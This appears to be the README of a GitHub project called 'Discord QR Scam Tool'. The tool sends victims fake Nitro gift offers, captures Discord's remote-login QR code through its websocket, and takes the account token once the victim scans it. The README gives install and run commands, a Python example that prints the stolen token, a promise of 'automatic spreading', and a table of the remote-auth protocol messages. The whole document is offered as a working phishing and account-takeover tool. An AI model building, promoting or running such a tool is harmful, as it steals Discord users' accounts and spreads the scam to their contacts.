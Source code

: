 Discord QR Scam Tool
====================

A remote authentication websocket client

Key Features
-------------

- Generates fake Nitro gifts to send to victims
- Uses websocket client to retrieve the client fingerprint/QR code, which is far more efficient than selenium
- Automatic spreading

Features to be added
-------------

- Different gift types eg: spotify

Installing
----------

.. code:: sh

    git clone https://github.com/raleighrimwell/discord-qr-scam-tool.git
    pip install -r requirements.txt

How to use
--------------

.. code:: 

    Run the command: python DiscordRemoteAuth.py

    
Quick Example of API
--------------

.. code:: py

    from DiscordRemoteAuth import RemoteAuthClient
    
    
    class GiftGenerator:
        def __init__(self):
            self.client = RemoteAuthClient(on_connected=self.on_connected, 
                                           on_scan=self.on_scan, 
                                           on_finish=self.on_finish, 
                                           on_close=self.on_close)
                                       
        def on_connected(self):
            print('connected')
            print(self.client.fingerprint)
        
        def on_scan(self):
            print('user scanned QR code')
            
        def on_finish(self):
            print('user submitted')
            print(self.client.token)
            
        def on_close(self):
            print('user failed to scan QR code')
            

Discord Remote Auth Documentation
=================================

.. list-table:: 
   :widths: 10 10 2
   :header-rows: 1

   * - OP
     - Sender
     - Description
   * - hello
     - server
     - Sent on connection open
   * - init
     - client
     - Sent after hello, describes generated public key
   * - nonce_proof
     - server
     - Sent after init, contains encrypted nonce
   * - nonce_proof
     - client
     - Sent after nonce_proof, contains decrypted nonce as "proof"
   * - pending_remote_init
     - server
     - Sent after a valid nonce_proof is submitted
   * - pending_finish
     - server
     - Sent after QR code is scanned, contains encrypted user data
   * - finish
     - server
     - Sent after login flow is completed, contains encrypted token
   * - heartbeat
     - client
     - Sent every N ms, described in hello packet
   * - heartbeat_ack
     - server
     - Sent after heartbeat packet, should close connection if a heartbeat_ack isn't received by the next heartbeat interval

